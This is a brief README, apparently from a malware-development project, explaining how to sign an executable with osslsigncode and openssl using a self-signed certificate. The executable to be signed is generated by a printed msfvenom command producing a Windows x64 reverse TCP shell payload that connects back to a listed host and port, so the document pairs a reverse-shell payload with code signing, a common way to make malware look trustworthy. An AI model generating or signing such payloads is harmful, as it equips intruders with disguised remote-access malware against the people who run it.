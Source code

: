 # Concept

Usage of `osslsigncode` and `openssl` to sign an executable with a self signed certificate.

## The executable used was generated as follows:
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o maldev.exe
```

# Compiling

```bash
$ make
```